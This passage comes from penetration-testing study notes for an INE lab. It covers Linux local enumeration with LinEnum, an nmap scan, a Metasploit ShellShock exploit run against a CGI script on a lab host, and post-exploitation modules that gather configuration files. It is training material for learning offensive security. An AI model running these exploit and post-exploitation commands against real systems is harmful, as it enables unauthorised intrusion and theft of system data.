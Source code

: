 ```bash
crontab -l
```

## Automating Local Enum

> 🔬 INE LAB
>
> - Target IP: `192.19.208.3`
> - Automation Tools:
>   - [LinEnum - rebootuser](https://github.com/rebootuser/LinEnum)
>   - Metasploit Framework

**`LinEnum`** - bash script that *automates common Linux local enumeration*

```bash
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

### Enumeration & Exploitation

```bash
# Target Apache/ShellShock vuln
nmap -sV 192.19.208.3
	80/tcp open  http  Apache httpd 2.4.6 ((Unix))
```

```bash
service postgresql start && msfconsole -q
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS 192.19.208.3
setg RHOST 192.19.208.3
set TARGETURI /gettime.cgi
run
```

![](.gitbook/assets/image-20230427224255144.png)

### Metasploit Post-Exploitation

```bash
background
```

- Enumerate **configuration files**

```bash
use post/linux/gather/enum_configs
set SESSION 1
run
```

![Metasploit - post/linux/gather/enum_configs](.gitbook/assets/image-20230427224356686.png)

- Enumerate **network fino**
